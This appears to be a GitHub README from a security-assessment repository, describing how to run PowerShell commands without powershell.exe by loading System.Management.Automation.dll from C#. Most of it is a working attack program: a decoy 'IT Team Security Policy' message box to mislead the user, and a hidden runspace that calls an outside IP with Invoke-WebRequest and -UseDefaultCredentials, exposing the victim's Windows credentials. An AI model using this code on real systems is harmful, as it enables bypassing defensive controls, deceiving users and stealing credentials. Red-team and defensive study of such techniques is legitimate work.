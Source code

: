 ### Powershell Attack Without Powershell.exe
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe.

![Image of Yaktocat](https://raw.githubusercontent.com/NyaMeeEain/Infrastructure-Assessment/master/Images/PS_WT.PNG)

```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Windows.Forms;

public class Program
{
    public static void Main()
    {
        MessageBox.Show("Loading Security Services...", "IT Team Security Policy", MessageBoxButtons.YesNo, MessageBoxIcon.Question);
    }
    public class Code
    {
        public static void Exec()
        {
            string command = "Invoke-WebRequest -URI http://192.168.200.128:80/a -UseDefaultCredentials > null";
            RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
            Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
            rspace.Open();
            Pipeline pipeline = rspace.CreatePipeline();
            pipeline.Commands.AddScript(command);
            pipeline.Invoke();
        }
    }
}
